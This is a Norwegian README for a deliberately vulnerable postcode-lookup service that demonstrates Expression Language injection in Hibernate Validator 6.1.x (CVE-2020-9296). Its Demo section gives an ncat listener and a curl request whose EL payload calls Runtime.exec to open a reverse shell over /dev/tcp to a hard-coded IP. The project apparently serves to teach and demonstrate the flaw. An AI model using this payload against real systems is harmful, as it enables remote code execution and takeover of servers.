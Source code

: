 # postnr - enkelt innbrudd i Hibernate Validator 6.1.x

## API

Søk i databasen over postnummer med en GET mot /postnr. Søket tar inntil fire parametre.

| Parameter | Betydning |
--- | --- |
| pn | Postnummer |
| ps | Poststed |
| kn | Kommunenr |
| k | Kommunenavn |

Ex:
```shell
curl -s localhost:8080/postnr?pn=5230
```

Resultatet er en liste av poststeder som matcher søkekriteriene:

```json
[
  {
    "kommune": "Bergen",
    "kommunenr": "4601",
    "postnr": "5230",
    "poststed": "Paradis"
  }
]
```



## Demo ##

Tre terminaler:
1. `ncat -lkvp 31338`
2. `mvn clean package exec:java`
3. `curl -vv -G --data-urlencode 'name=${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec(["bash", "-c", "exec 5<>/dev/tcp/192.168.10.138/31338;cat <&5 | while read line; do $line 2>&5 >&5;done"].toArray("".split(","))).waitFor()}' http://localhost:8080/postnr`

Merk at IP-adressen i terminal 3 må matche IP-adressen til lokal maskin.

I terminal 1 kan man nå skrive vanlige bash-kommandore og eksekvere dem på maskinen som kjører i terminal 2.

## Kommentarer
Må bruke 6.1.x-versjonene.
6.2.x og 7.0.x legger begrensning på EL-tolkningen og defaulter til å ikke kunne kalle metoder. Se detaljer: https://in.relation.to/2021/01/06/hibernate-validator-700-62-final-released/,

CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9296

Netflix: https://securitylab.github.com/advisories/GHSL-2020-027-netflix-conductor/

### Tidlig oppdagelse

http://danamodio.com/appsec/research/spring-remote-code-with-expression-language-injection/

## Generert kode:

Koden er generert med
```shell
mvn archetype:generate -DarchetypeArtifactId=jersey-quickstart-grizzly2 \
-DarchetypeGroupId=org.glassfish.jersey.archetypes -DinteractiveMode=false \
-DgroupId=com.example -DartifactId=simple-service -Dpackage=com.example \
-DarchetypeVersion=2.33
```

Fra https://eclipse-ee4j.github.io/jersey.github.io/documentation/latest/getting-started.html

## Dokumentasjon

Java EE Expression Language: https://javaee.github.io/tutorial/jsf-el.html#GJDDD

Hibernate Validator: https://docs.jboss.org/hibernate/validator/6.1/reference/en-US/html_single/
